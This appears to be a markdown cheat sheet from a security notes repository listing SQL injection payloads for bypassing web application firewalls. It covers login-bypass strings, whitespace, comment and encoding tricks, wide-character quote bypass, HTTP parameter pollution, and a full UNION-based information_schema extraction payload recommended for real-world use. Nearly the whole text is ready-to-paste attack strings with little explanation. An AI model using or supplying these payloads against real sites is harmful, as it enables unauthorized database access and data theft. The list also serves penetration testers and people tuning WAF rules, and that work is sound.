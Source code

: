 # WAF bypass
WAF is a defender for web.  
Tricks:  
- I want to login  
  - `id=1' or 1 like 1#`  
  - `') or '1'=1--`  
- Space bypass 
  - `select/**/username/**/from/**/users;`  
  - `select@{backtick}id{backtick}`(I wrap it with {} due to markdown syntax here)  
  - `union select 1,2` -> `union(select(1),2)`  
  - `%20 %09(tab) %0a(line feed) %0b %0c %0d %a0 /**/` -> `id=1%0aand%0aip=2`  
  - aspx+mssql `%00`, php+mysql `/*%00*/`
- Obfuscation with Upper Lowercase  
  - `SelecT`  
- Obfuscation with wrap  
  - `UNIunionON`  
- Inline comments(**It is useful to bypass waf in realworld**)  
  - `id=1'/*!50000union*/+/*!50000all*/+/*!50000select*/1,2,concat_ws('/',table_name),4+from+/*!50000information_schema.tables*/+/*!50000where*/+table_schema='table'%23`  
- Comma bypass  
  - `union select 1,2,3` -> `union select * from ((select 1)a join (select 2)b join (select 3)c);`  
  - in use of limit `limit 1 offset 0`  
  - in use of mid() `mid(version() from 1 for 1)`
- Encoding(or double) bypass  
  - `URL-ENCODE, HEXIDECIMAL, UNICODE`  
  - `unicode(quote): %u0027 %u02b9 %u02bc %u02c8 %u2032 %uff07 %c0%27 %c0%a7 %e0%80%a7`  
  - `unicode(space): %u0020 %uff00 %c0%20 %c0%a0 %e0%80%a0`  
  - `unicode(left bracket): %u0028 %uff08 %c0%28 %c0%a8 %e0%80%a8`  
  - `unicode(right bracket): %u0029 %uff09 %c0%29 %c0%a9 %e0%80%a9`  
  - `Char(49)` `Hex('a')` `Unhex(61)`  
  - On asp+iis, server can parse the unicode automatically, `%` in url would be ignored, it means `s%u0065lect` would be parsed as 'select'  
  - `IBM037`,`IBM500`,`IBM1026`,`cp875` and so on, take a look at [bypass waf with encoding](#bypass-requestvalidation-on-aspx)  
- Comment 
  - `#`    
  - `--+` `--` `-- -`  
  - `/* ... */` `///**/`(multiple lines)  
  - {backtick} can be used as comment if  mysql <= 5.5  
  - `;` stacking queries cannot be used in mysql query+php, but it works in PDO  
- Command bypass  
  - `sleep()` -> `benchmark()`  
  - `@@datadir` -> `datadir()`  
- Logic operator  
  - `and/or` -> `&& / |`  
- Wide-Character injection  
  - bypass single quote： `%bf%27 %df%27 %aa%27`  
- keyword `information_schema` bypass  
  - get database name：`select * from users where name = helloworld();`  
    `ERROR 1305 (42000): FUNCTION CODINGGROUND.helloworld does not exist`  
- HPP on asp  
  - When GET/POST/COOKIE submit `uid` at the same time, server would follow the order of GET/POST/COOKIE to receive and split them with comma  
  - Exploit: `http://example.com/?uid=1 and 1=2 union/*  POST: uid=*/select.....`  
- Function separator  
  - In fact, there can be something between function name and the left bracket, this can be used to bypass regex  
  - function `/**/`,`%2520`,`%250c`,`%25a0` ()  
